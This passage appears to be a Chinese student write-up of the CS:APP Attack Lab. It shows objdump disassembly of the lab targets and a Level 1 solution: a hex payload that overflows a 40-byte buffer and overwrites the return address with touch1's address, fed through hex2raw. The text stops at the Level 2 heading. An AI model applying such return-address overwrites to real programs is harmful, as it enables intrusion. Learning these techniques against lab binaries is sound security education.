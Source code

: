 ## Lab3实验记录

简要介绍实验如下，实验要求实现缓冲区溢出攻击中的代码注入攻击和覆写返回地址攻击。

详细实验内容请见[attack lab的实验指导](http://csapp.cs.cmu.edu/3e/attacklab.pdf)。该实验指导非常非常重要，描述了整个实验的操作流程和一部分的实验原理，甚至连附录A和B都需要好好阅读。

在实验开始前我们和上一个实验bomb lab一样先通过反汇编得到`ctarget`和`rtarget`的汇编代码。

```shell
$ objdump -d ctarget > ctarget_disas.asm
$ objdump -d rtarget > rtarget_disas.asm
```



### Level 1

该level较为简单。可以看到调用`Gets`前，共分配了40字节的缓冲区大小，而这个栈空间的结构也非常简单，在40字节的缓冲区上面就是返回地址，所以我们只需输入40个字符，再接着输入函数`touch1`对应的地址覆盖掉原来的返回地址，就可以完成该level。

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

在具体操作的过程中我们可以借助附录A提供的指导，使用`hex2raw`来完成转换。

exploit.txt文件内容如下：

```assembly
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40
```

执行代码为

```shell
$ ./hex2raw < exploit.txt > exploit-raw.txt
$ ./ctarget < exploit-raw.txt -q
```



### Level 2

